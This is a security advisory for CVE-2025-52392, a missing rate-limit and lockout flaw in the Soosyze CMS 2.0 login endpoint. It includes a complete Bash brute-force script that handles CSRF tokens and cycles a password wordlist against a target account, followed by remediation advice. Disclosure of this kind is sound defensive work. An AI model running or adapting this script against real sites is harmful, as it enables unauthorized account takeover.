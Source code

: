 # Brute Force Login Vulnerability in Soosyze CMS 2.0 (CVE-2025-52392)

### Affected Component

`/user/login` endpoint – Authentication Controller

### CWE

[CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

### Description

Soosyze CMS 2.0 is vulnerable to a brute-force authentication attack due to missing rate limiting and account lockout mechanisms on the \`/user/login\` endpoint.

An attacker can send unlimited login attempts without any restriction, allowing them to guess user credentials — including administrative accounts — via automated tools.

This issue was confirmed using a custom proof-of-concept script and the `rockyou.txt` wordlist to perform repeated POST requests against the login endpoint with a fixed username and varying passwords. &#x20;

The same result can be reproduced with tools such as **THC Hydra** or **Burp Suite Intruder**. The vulnerability remains unpatched, and no vendor response has been received at the time of publication.

### Impact

An attacker could gain unauthorized access to any account, including administrator accounts, potentially leading to full compromise of the CMS instance.

### Proof of Concept (PoC)

#### Overview

The following PoC demonstrates a brute-force authentication vulnerability in **Soosyze CMS 2.0** at the `/user/login` endpoint.\
The issue is caused by **missing rate limiting and account lockout mechanisms**, allowing an attacker to try unlimited password guesses.

#### Steps to Reproduce

1. Deploy or access a Soosyze CMS 2.0 instance.
2. Identify a valid username or email address (`test@test.com` in this example).
3. Prepare a password wordlist (e.g., `rockyou.txt`).
4. Execute the provided Bash script to perform automated login attempts.

#### PoC Script

```bash
#!/usr/bin/env bash
# Author: Beatriz Fresno Naumova (@beafn28)
# Usage:
#   ./script.sh [wordlist.txt]
# If no wordlist is provided, a dictionary will be used.

set -euo pipefail

BASE_URL="http://localhost:8000"
LOGIN_PATH="/user/login"
EMAIL_FIELD="email"
PASS_FIELD="password"
TARGET_EMAIL="test@test.com"

WORDLIST_FILE="${1:-}"
DEFAULT_WORDS=("123456" "admin" "password" "qwerty" "letmein" "admin123" "password1")

form_url="$BASE_URL$LOGIN_PATH"
COOKIE_JAR="$(mktemp)"

get_form() {
    curl -sS -c "$COOKIE_JAR" -b "$COOKIE_JAR" "$form_url" > /tmp/login_page.html
}

extract_token() {
    local name value
    name=$(sed -nE 's/.*name="([_a-zA-Z0-9:-]*(token|csrf)[_a-zA-Z0-9:-]*)".*type="hidden".*/\1/p' /tmp/login_page.html | head -n1 || true)
    value=""
    if [[ -n "$name" ]]; then
        value=$(sed -nE "s/.*name=\"$name\".*value=\"([^\"]*)\".*/\1/p" /tmp/login_page.html | head -n1 || true)
    fi
    printf '%s\t%s\n' "$name" "$value"
}

post_login() {
    local pass="$1" tname="$2" tval="$3"
    curl -sS -o /tmp/resp.html -w "%{http_code}" \
        -c "$COOKIE_JAR" -b "$COOKIE_JAR" \
        -X POST "$form_url" \
        -H "Content-Type: application/x-www-form-urlencoded" \
        -H "Origin: $BASE_URL" -H "Referer: $form_url" \
        --data-urlencode "$EMAIL_FIELD=$TARGET_EMAIL" \
        --data-urlencode "$PASS_FIELD=$pass" \
        $( [[ -n "$tname" && -n "$tval" ]] && printf -- '--data-urlencode %s=%s' "$tname" "$tval" )
}

echo "[*] Starting brute-force attack on $form_url"
[[ -n "$WORDLIST_FILE" && -r "$WORDLIST_FILE" ]] && mapfile -t words < "$WORDLIST_FILE" || words=("${DEFAULT_WORDS[@]}")

i=0
for pw in "${words[@]}"; do
    i=$((i+1))
    get_form
    IFS=$'\t' read -r TOKEN_NAME TOKEN_VALUE < <(extract_token)
    code=$(post_login "$pw" "$TOKEN_NAME" "$TOKEN_VALUE")

    if grep -q '"redirect"' /tmp/resp.html; then
        echo -e "[$i] Password found: '\e[1m$pw\e[0m' (HTTP $code)"
        break
    else
        echo "[$i] '$pw' (HTTP $code)"
    fi

    sleep 0.$((RANDOM%9+1))
done

rm -f "$COOKIE_JAR" /tmp/resp.html
```

#### Execution example

```
./poc.sh rockyou.txt
```

<figure><img src="../.gitbook/assets/image (1679).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-12 a las 21.12.29.png" alt=""><figcaption></figcaption></figure>

### Remediation

* Implement rate limiting (e.g., limit failed login attempts to 5 per minute per IP).
* Introduce account lockout after repeated failed login attempts.
* Consider adding CAPTCHA after several failed attempts.

### Discoverer

Beatriz Fresno Naumova (@beafn28)

### References

* CVE: [CVE-2025-52392](https://www.cve.org/CVERecord?id=CVE-2025-52392)
